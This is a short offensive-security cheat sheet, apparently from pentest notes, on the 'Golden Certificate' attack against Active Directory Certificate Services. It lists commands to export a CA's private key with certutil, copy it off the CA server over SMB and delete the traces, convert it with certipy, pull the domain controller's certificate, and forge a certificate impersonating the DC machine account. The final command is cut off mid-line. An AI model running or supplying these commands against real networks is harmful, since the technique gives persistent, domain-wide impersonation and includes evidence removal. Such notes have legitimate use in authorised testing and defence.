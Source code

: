 # Golden Certificate

Backup and extract manually:

```
Cmd > certutil -backupkey -f -p Passw0rd! C:\Windows\CABackup
$ smbclient.py -k -no-pass CA01.megacorp.local
# use c$
# cd windows/CABackup
# get CorpCA.p12
# rm CorpCA.p12
# cd ..
# rmdir CABackup
```

P12 to PFX:

```
$ certipy cert -pfx CorpCA.p12 -password 'Passw0rd!' -export -out CorpCA.pfx
```

Get CRL from the DC:

```
$ </dev/null openssl s_client -connect <DC_IP>:636 | openssl x509 > dc.crt
```




## Certipy

```
$ certipy ca -backup -ca CorpCA -k -no-pass -target CA01.megacorp.local -dc-ip 192.168.1.11 -ns 192.168.1.11
$ certipy forge -ca-pfx CorpCA.pfx -upn 'DC01$@megacorp.local' (or -dns DC01.megacorp.local) -subject 'CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local -crl 'ldap://***
```
